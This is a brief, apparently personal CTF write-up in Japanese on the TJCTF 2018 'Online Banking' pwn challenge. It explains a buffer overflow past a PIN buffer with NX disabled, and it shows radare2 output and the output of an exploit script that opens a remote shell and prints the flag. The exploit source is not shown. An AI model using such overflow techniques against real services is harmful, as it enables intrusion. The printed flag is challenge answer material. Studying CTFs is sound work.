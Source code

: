 # Online Banking [Binary Exploitation]
```
Try out our new online banking service!

nc problem1.tjctf.org 8005

Binary Source
```

# 解説見た
- https://tcode2k16.github.io/blog/posts/tjctf-2018-writeup/
- fgetsの仕様を理解していないと厳しい
- Cのソースコードを読むと脆弱性があって、pin_check+1にNAME\_SIZE+1を食わせているのでvulnarable to a buffer overflow attackが存在
- pointerを書き換えられることがわかったので、flagの読み方を調べる
- vulnarable, flagの二点を抑えるのがpwnの基本っぽい
- 33byte(NAME_SIZE)書き込みできて、NXが効いてない→なんか嬉しいらしい(よくわからない)
```
Welcome to our Online Banking system!
To use our system, please register an account with a 4-character PIN:
Name: 1234
PIN: 1234
Thank you for registering! You may now use our service.

What would you like to do?
 d - deposit
 w - withdraw
 q - quit
d
Please verify your PIN first:
PIN: 1234
How much would you like to deposit?
123
Your current balance is 123

What would you like to do?
 d - deposit
 w - withdraw
 q - quit
w
Please verify your PIN first:
PIN: 12344
How much would you like to withdraw?
12344
Your current balance is 4294955075

What would you like to do?
 d - deposit
 w - withdraw
 q - quit
```
- ちょっと遊んでみると明らかにbuffer overflowっぽいものが出てくるので、ここから気づくのかも
```
 -- Your project name should contain an uppercase letter, 8 vowels, some numbers, and the first 5 numbers of your private bitcoin key.
[0x00400680]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[x] Emulate code to find computed references (aae)
[x] Analyze consecutive function (aat)
[0x00400680]> i~nx
nx       false
[0x00400680]> 
```
- pythonコードを実行
```
kaito@kaito-ThinkPad-X240:~/projects/ctf/tjctf2018/Online_Banking$ python solve.py
[+] Opening connection to problem1.tjctf.org on port 8005: Done
[*] Switching to interactive mode
$ ls
flag.txt
problem
wrapper
$ cat flag.txt
tjctf{d4n6_17_y0u_r0pp3d_m3_:(}$ exit
[*] Got EOF while reading in interactive
$ exit
$ 
[*] Interrupted
[*] Closed connection to problem1.tjctf.org port 8005
```
- `tjctf{d4n6_17_y0u_r0pp3d_m3_:(}` -> AC
- $で任意のコードが実行できるっぽい
